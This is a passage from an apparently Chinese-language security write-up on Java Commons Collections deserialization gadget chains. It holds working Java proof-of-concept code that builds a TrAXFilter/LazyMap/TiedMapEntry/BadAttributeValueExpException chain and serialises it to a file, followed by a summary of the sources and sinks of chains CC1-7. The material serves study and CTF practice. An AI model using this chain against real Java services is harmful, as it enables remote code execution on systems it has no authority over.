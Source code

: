```
        InstantiateFactory instantiateFactory = new InstantiateFactory(TrAXFilter.class,new Class[]{Templates.class},new Object[]{templates});
        FactoryTransformer factoryTransformer = new FactoryTransformer(instantiateFactory);

        Map innermap = new HashMap();
        LazyMap outmap = (LazyMap) LazyMap.decorate(innermap,factoryTransformer);

        TiedMapEntry tiedmap = new TiedMapEntry(outmap,"town");
        BadAttributeValueExpException poc = new BadAttributeValueExpException(1);
        Field val = Class.forName("javax.management.BadAttributeValueExpException").getDeclaredField("val");
        val.setAccessible(true);
        val.set(poc,tiedmap);

        ObjectOutputStream os = new ObjectOutputStream(new FileOutputStream("CC.bin"));
        os.writeObject(poc);

        ObjectInputStream fos = new ObjectInputStream(new FileInputStream("CC.bin"));
        fos.readObject();

    }

    public static void setFiledValue(Object obj,String Filename,Object value) throws Exception
    {
        Field field = obj.getClass().getDeclaredField(Filename);
        field.setAccessible(true);
        field.set(obj,value);
    }
}
```

其实手工筛选的时候，发现其他的链子也是有些能走通的

### 新的CC链

刚才那个题目没有过滤得很严，但是有时候会见到过滤得比较严的CC链，所以这里我们来总结一下CC链的特征，并尝试能不能在过滤的情况下找到另外的链子

首先简单分析一下CC1-7链子的特点：

- Source：
  - compare：2、4
  - toString：5
  - hashCode：6
  - equals：7
- Sink：
  - 反射invoke：1、5、6、7
  - 任意单参构造方法TrAXFilter#TrAXFilter(Templates) -> TemplateImpl#newTransformer：2、3、4、3+5

除了上面的Sink点之外，还可以有：

- 命令注入
- 二次反序列化readObject
- jndi注入
- …(还有很多，比如模板注入、jdbc attack、ssrf、xxe之类的，但是鉴于只分析CC包且需要完成任意代码执行，就不列举其他的了)
